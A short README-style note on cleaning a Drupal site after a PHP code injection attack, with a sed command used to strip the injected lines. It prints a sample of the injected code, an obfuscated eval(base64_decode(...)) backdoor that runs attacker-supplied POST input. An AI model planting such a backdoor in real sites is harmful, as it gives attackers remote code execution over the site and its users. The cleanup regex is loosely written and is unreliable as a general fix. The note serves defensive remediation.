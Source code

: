 # Remove Drupal code injection

Had a client whose site got hit with a big code injection attack. There were many hundreds of compromised files and no clean copy of the code anywhere.

The injected code looked something like this:

```<?php /*457563643*/ error_reporting(0); @ini_set('error_log',NULL); @ini_set('log_errors',0); @ini_set('display_errors','Off'); @eval(base64_decode('aWYobWQ1KCRfUE9TVFsicGYiXSkgPT09ICI5M2FkMDAzZDdmYzU3YWFlOTM4YmE0ODNhNjVkZGY2ZCIpIHsgZXZhbChiYXNlNjRfZGVjb2RlKCRfUE9TVFsiY29va2llc19w')); /*457563643*/ ?>```

We removed the offending code with

```find . -name "*.php" | xargs sed -i 's/<*.*[[:digit:]]+*.*eval*.*[[:digit:]]+*.*>//g' *.php```

,replaced the core files with the latest Drupal files and put the cleaned up code into version control.

Your mileage may vary. 
